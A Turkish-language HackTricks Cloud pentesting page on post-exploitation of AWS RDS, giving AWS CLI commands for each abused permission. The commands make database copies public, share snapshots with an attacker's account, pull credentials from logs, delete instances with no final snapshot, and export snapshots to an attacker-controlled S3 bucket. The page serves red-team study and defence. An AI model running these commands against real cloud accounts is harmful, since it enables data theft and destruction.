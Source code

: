 # AWS - RDS Post Exploitation

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'i **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## RDS

Daha fazla bilgi için kontrol edin:

{% content-ref url="https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlar%C4%B1/aws-ili%C5%9Fkisel-veritaban%C4%B1-rds-enum.md" %}
[https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanları/aws-ilişkisel-veritabanı-rds-enum.md](https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlar%C4%B1/aws-ili%C5%9Fkisel-veritaban%C4%B1-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Saldırgan yeterli izinlere sahipse, bir **DB'yi halka açık** hale getirebilir. Bunun için DB'nin bir anlık görüntüsünü oluşturur ve ardından bu anlık görüntüden halka açık bir DB oluşturur.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Bu izinlere sahip bir saldırgan, bir DB'nin bir anlık görüntüsünü oluşturabilir ve bunu halka açık hale getirebilir. Ardından, kendi hesabında bu anlık görüntüden bir DB oluşturabilir.

Eğer saldırganın `rds:CreateDBSnapshot` izni yoksa, yine de başka oluşturulmuş anlık görüntüleri halka açık hale getirebilir.

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` izni olan bir saldırgan, bir RDS örneğinin günlük dosyalarının bölümlerini indirebilir. Hassas veriler veya erişim kimlik bilgileri yanlışlıkla kaydedilmişse, saldırgan bu bilgileri kullanarak ayrıcalıklarını yükseltebilir veya yetkisiz işlemler gerçekleştirebilir.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Potansiyel Etki**: Sızdırılan kimlik bilgilerini kullanarak hassas bilgilere erişim veya yetkisiz işlemler yapma.

### `rds:DeleteDBInstance`

Bu izinlere sahip bir saldırgan, **mevcut RDS örneklerini DoS** edebilir.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Potansiyel etki**: Mevcut RDS örneklerinin silinmesi ve potansiyel veri kaybı.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test
{% endhint %}

Bu izne sahip bir saldırgan, bir RDS örneği anlık görüntüsünü bir S3 kovasına **aktarabilir**. Saldırgan, hedef S3 kovasını kontrol ediyorsa, aktarılan görüntü içindeki hassas verilere potansiyel olarak erişebilir.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Potansiyel etki**: Dışa aktarılan anlık görüntüdeki hassas verilere erişim.

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
